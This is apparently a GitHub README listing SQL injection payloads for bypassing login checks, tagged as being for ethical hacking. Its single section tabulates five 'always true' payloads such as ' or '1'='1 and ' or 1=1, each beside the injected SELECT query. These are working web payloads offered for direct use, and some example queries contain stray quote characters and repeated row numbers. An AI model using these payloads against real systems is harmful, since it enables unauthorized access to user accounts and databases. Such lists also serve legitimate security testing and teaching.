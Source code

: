 # SQL INJECTION 
### PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

## Table of contents

1. [Bypass SQL Always True](#alwaystrue)
 
## Bypass SQL Always True <a name="alwaystrue"></a>

|NO  |PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
| 1 | ```' or '1'='1``` |```SELECT * FROM user WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
| 1 | ```' or username!=''``` |```SELECT * FROM user WHERE username = '' or username!='' AND password = '' or password!='';```|
| 1 | ```' or FALSE!=TRUE``` |```SELECT * FROM user WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|
| 1 | ```' or TRUE=TRUE``` |```SELECT * FROM user WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE";```|
| 1 | ```' or 1=1``` |```SELECT * FROM user WHERE username = '' or 1=1 AND password = '' or 1=1" ;```|
